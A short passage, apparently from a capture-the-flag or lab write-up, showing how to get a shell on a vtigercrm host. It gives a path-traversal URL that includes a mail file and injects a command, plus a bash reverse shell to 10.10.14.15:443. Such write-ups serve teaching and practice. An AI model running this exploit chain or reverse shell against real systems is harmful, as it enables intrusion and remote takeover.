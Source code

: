 ![image-20220928005253261](./images/image-20220928005253261.png)



get webshell.

```bash
https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=bash+-i+>%26+/dev/tcp/10.10.14.15/443+0>%261

bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

![image-20220928005605071](./images/image-20220928005605071.png)
